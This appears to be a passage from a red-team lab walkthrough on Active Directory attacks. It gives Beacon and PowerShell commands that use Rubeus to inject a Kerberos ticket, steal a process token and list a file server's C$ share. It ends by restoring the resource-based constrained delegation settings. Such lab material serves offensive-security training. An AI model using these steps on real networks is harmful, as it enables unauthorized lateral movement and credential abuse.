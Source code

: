     BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket was injected.
    
    1. run klist
-  Use the ticket to list C$ on lon-fs-1.
    
    1. ls \\lon-fs-1\c$
-  On the Atacker Desktop, restore the RBCD configuration back to how it was.
    
    powershellTypeCopy
    
    `Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1 -Server 'lon-dc-1' -Credential $Cred`
